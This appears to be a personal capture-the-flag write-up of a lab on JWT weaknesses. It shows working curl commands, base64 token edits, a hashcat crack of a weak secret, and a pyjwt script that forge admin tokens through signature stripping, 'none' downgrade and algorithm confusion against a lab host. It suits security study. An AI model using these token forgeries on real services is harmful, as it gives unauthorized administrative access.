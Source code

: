 ### Example of JWT token:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 - Header
eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0 - Payload 
UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4 - Signature
```

A JWT consists of three components, each Base64Url encoded and separated by dots:

- **Header** - The header usually indicates the type of token, which is JWT, as well as the signing algorithm that is used.
- **Payload** - The payload is the body of the token, which contain the claims. A claim is a piece of information provided for a specific entity. In JWTs, there are registered claims, which are claims predefined by the JWT standard and public or private claims. The public and private claims are those which are defined by the developer. It is worth knowing the different between public and private claims, but not for security purposes, hence this will not be our focus in this room.
- **Signature** - The signature is the part of the token that provides a method for verifying the token's authenticity. The signature is created by using the algorithm specified in the header of the JWT. Let's dive a bit into the main signing algorithms.

### Signing Algorithms

Although there are several different algorithms defined in the JWT standard, we only really care about three main ones:

- **None** - The None algorithm means no algorithm is used for the signature. Effectively, this is a JWT without a signature, meaning that the verification of the claims provided in the JWT cannot be verified through the signature.
- **Symmetric Signing** - A symmetric signing algorithm, such as HS265, creates the signature by appending a secret value to the header and body of the JWT before generating a hash value. Verification of the signature can be performed by any system that has knowledge of the secret key.
- **Asymmetric Signing** - An asymmetric signing algorithm, such as RS256, creates the signature by using a private key to sign the header and body of the JWT. This is created by generating the hash and then encrypting the hash using the private key. Verification of the signature can be performed by any system that has knowledge of the public key associated with the private key that was used to create the signature.

If using a HS265, may be able to crack this. See below.
### Security in the Signature

JWTs can be encrypted (called JWEs), but the key power of JWTs comes from the signature. Once a JWT is signed, it can be sent to the client, who can use this JWT wherever needed. We can have a centralised authentication server that creates the JWTs used on several applications. Each application can then verify the signature of the JWT; if verified, the claims provided within the JWT can be trusted and acted upon.

### Signature Validation Mistakes
#### Not Verifying the Signature

In the following example, a token is used to authenticate as the user 'user':
```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.37.161/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
```


We can remove the signature part of the token, and it is still found to be valid:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.' http://10.10.37.161/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
```

We may be able to do privilege escalation on the payload

```bash
eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0 = {"username":"user","admin":0}
```

We can replace 'user' with 'admin' and the '0' with a '1':

```bash
garffff@garffff:~$ echo -n '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9
```

Sending the modifyed token, confirms we have access to the admin account:

```bash
garffff@garffff:~$ echo -n '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.' http://10.10.37.161/api/v1.0/example2?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```

#### Downgrading to None

We can remove the encryption type from the header:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 = {"typ":"JWT","alg":"HS256"}
```

By setting the 'alg' header to 'none':

```bash
garffff@garffff:~$ echo '{"typ":"JWT","alg":"None"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0K
```

Next, set the payload to the user we want to priv esc to:

```bash
garffff@garffff:~$ echo '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg
```

Put it all together:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4
```

And send:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.37.161/api/v1.0/example3?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}"
}
```

#### Weak Symmetric Secrets

If a symmetric signing algorithm is used, the security of the JWT relies on the strength and entropy of the secret used. If a weak secret is used, it may be possible to perform offline cracking to recover the secret. Once the secret value is known, you can again alter the claims in your JWT and recalculate a valid signature using the secret.

```bash
garffff@garffff:~/Downloads$ echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY' > jwt.txt
```

```bash
garffff@garffff:~/Downloads$ hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY:secret
```

With the secret, modify the JWT token using https://jwt.io/

![[Pasted image 20241022153428.png]]

And verify:

```bash
garffff@garffff:~/Downloads$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.R_W3WxiyPIyIaYxD-PCY8PzDxd_DQKNkIDu9_KyzLzU' http://10.10.37.161/api/v1.0/example4?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{e1679fef-df56-41cc-85e9-af1e0e12981b}"
}
```
### Signature Algorithm Confusion

The last common issue with signature validation is when an algorithm confusion attack can be performed. This is similar to the `None` downgrade attack, however, it specifically happens with confusion between symmetric and asymmetric signing algorithms. If an asymmetric signing algorithm, for example, RS256 is used, it may be possible to downgrade the algorithm to HS256. In these cases, some libraries would default back to using the public key as the secret for the symmetric signing algorithm. Since the public key can be known, you can forge a valid signature by using the HS256 algorithm in combination with the public key.

```bash
garffff@garffff:~/Downloads$ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password5" }' http://10.10.37.161/api/v1.0/example5
{
  "public_key": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.kR4DjBkwFE9dzPNeiboHqkPhs52QQgaHcC2_UGCtJ3qo2uY-vANIC6qicdsfT37McWYauzm92xflspmSVvrvwXdC2DAL9blz3YRfUOcXJT03fVM7nGp8E7uWSBy9UESLQ6PBZ_c_dTUJhWg35K3d8Jao2czC0JGN3EQxhcCGtxJ1R7T9tzBMaqW-IRXfTCq3BOxVVF66ePEfvG7gdyjAnWrQFktRBIhU4LoYwem3UZ7PolFf0v2i6jpnRJzMpqd2c9oMHOjhCZpy_yJNl-1F_UBbAF1L-pn6SHBOFdIFt_IasJDVPr1Ybv75M26o8OBwUJ1KK_rwX41y5BCNGcks9Q"
}

```

To use the script below, need to install the following:

```bash
garffff@garffff:~$ pip3 install pyjwt==1.5.3
```

Python script:

```bash
import jwt

public_key = "ADD_KEY_HERE"

payload = {
    'username' : 'admin',
    'admin' : 1
}

access_token = jwt.encode(payload, public_key, algorithm="HS256")
print (access_token)
```

Running the script:

```bash
garffff@garffff:~$ python3 secret.py 
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc'
```

Verify:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc' http://10.10.42.255/api/v1.0/example5?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f592dfe2-ec65-4514-a135-70ba358f22c4}"
}
```

